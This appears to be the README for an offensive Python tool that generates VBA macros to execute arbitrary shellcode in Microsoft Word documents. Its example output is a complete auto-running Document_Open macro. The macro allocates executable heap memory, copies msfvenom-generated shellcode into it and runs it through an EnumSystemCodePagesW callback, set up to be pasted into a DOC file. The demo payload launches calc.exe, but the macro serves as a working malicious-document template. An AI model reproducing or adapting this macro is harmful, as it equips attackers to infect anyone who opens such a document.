 # tri-a-gen
Tri-a-gen is based on [Trigen](https://github.com/karttoon/trigen), it is a Python script which uses different combinations of Win32 function calls in generated VBA to execute shellcode.

Blog post - [17JAN2017 - Abusing native Windows functions for shellcode execution](http://ropgadget.com/posts/abusing_win_functions.html)

Below is an example output using msfvenom to generate shellcode for input.

```
# python trigen.py "$(msfvenom --payload windows/exec CMD='calc.exe' -f c)"
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 193 bytes

################################################
#                                              #
#   Copy VBA to Microsoft Office 97-2003 DOC   #
#                                              #
#   Alloc: HeapAlloc                           #
#   Write: RtlMoveMemory                       #
#   ExeSC: EnumSystemCodePagesW                #
#                                              #
################################################

Private Declare Function createMemory Lib "kernel32" Alias "HeapCreate" (ByVal flOptions As Long, ByVal dwInitialSize As Long, ByVal dwMaximumSize As Long) As Long
Private Declare Function allocateMemory Lib "kernel32" Alias "HeapAlloc" (ByVal hHeap As Long, ByVal dwFlags As Long, ByVal dwBytes As Long) As Long
Private Declare Sub copyMemory Lib "ntdll" Alias "RtlMoveMemory" (pDst As Any, pSrc As Any, ByVal ByteLen As Long)
Private Declare Function shellExecute Lib "kernel32" Alias "EnumSystemCodePagesW" (ByVal lpCodePageEnumProc As Any, ByVal dwFlags As Any) As Long

Private Sub Document_Open()

Dim shellCode As String
Dim shellLength As Byte
Dim byteArray() As Byte
Dim memoryAddress As Long
Dim zL As Long
zL = 0
Dim rL As Long

shellCode = "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"

shellLength = Len(shellCode) / 2
ReDim byteArray(0 To shellLength)

For i = 0 To shellLength - 1

    If i = 0 Then
        pos = i + 1
    Else
        pos = i * 2 + 1
    End If
    Value = Mid(shellCode, pos, 2)
    byteArray(i) = Val("&H" & Value)

Next

rL = createMemory(&H40000, zL, zL)
memoryAddress = allocateMemory(rL, zL, &H5000)

copyMemory ByVal memoryAddress, byteArray(0), UBound(byteArray) + 1

executeResult = shellExecute(memoryAddress, zL)

End Sub```
